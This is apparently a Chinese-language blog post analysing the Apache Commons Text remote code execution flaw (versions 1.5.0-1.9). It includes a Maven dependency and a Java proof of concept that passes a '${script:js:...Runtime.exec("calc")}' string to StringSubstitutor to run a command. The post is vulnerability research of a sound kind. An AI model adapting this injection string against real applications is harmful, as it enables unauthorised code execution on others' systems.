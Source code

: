 ```yaml
---
title: "Apache Commons Text RCE 漏洞分析"
date: 2023-01-09T10:04:05+08:00
lastmod: 2023-01-09T10:04:05+08:00
draft: false
author: "X1r0z"

tags: ['rce']
categories: ['Java安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


打 rwctf 体验赛遇到的, 顺带写一下

总体感觉跟 log4j2 jndi 注入的利用方式很像, 毕竟都是 apache 的库



## 漏洞分析

> The Commons Text library provides additions to the standard JDK's text handling. Our goal is to provide a consistent set of tools for processing text generally from computing distances between Strings to being able to efficiently do String escaping of various type

官方文档: [https://commons.apache.org/proper/commons-text/userguide.html](https://commons.apache.org/proper/commons-text/userguide.html)

影响版本: 1.5.0 - 1.9

添加依赖

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-text</artifactId>
    <version>1.9</version>
</dependency>
```

demo

```java
package com.example;

import org.apache.commons.text.StringSubstitutor;

public class Demo {
    public static void main(String[] args) throws Exception{
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        String code = "${script:js:java.lang.Runtime.getRuntime().exec(\"calc\")}";
        String res = interpolator.replace(code);
        System.out.println(res);
    }
}
```
